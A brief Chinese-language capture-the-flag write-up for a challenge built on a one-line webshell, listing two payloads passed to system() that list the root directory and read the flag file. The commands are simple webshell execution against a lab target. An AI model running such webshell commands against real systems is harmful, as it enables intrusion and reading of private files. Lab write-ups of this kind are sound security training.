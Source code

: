 ## 知识点

* 一句话木马

## 解题过程

弟弟题，直接给了shell

## payload

~~~ shell
system("ls -l /");
~~~

~~~ shell
system("cat /flag");
~~~